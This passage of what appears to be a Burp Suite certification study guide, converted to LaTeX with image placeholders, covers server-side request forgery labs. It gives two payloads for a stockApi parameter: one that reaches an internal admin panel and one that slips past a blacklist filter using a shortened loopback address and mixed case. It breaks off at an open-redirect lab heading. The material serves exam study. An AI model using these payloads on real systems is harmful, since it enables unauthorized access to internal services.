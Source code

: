 \documentclass[
  letterpaper,
]{article}
\begin{document}
\begin{quote}
\textbf{IMAGE PLACEHOLDER:} Insert the corresponding source image here in a later revision.
\end{quote}
\begin{quote}
\textbf{Like XML, the place to find SSRF is at /product/stock check.}
\end{quote}

\begin{quote}
\textbf{IMAGE PLACEHOLDER:} Insert the corresponding source image here in a later revision.
\end{quote}
\begin{quote}
\textbf{There is also another place for SSRF, but it will be covered in
\href{https://github.com/DingyShark/BurpSuiteCertifiedPractitioner\#http-host-header-attacks}{HTTP
Host header attacks}.}
\end{quote}

\subsection{Labs}\label{labs-6}

\subsubsection{1. Basic SSRF against another back-end
system}\label{1-basic-ssrf-against-another-back-end-system}

\begin{quote}
Need to scan internal network to find IP with 8080 port:
\end{quote}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
stockApi=http://192.168.0.34:8080/admin
\end{Verbatim}

\subsubsection{2. SSRF with blacklist-based input
filter}\label{2-ssrf-with-blacklist-based-input-filter}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
stockApi=http://127.1/AdMiN/
\end{Verbatim}

\subsubsection{3. SSRF with filter bypass via open redirection
vulnerability}\label{3-ssrf-with-filter-bypass-via-open-redirection-vulnerability}
\end{document}
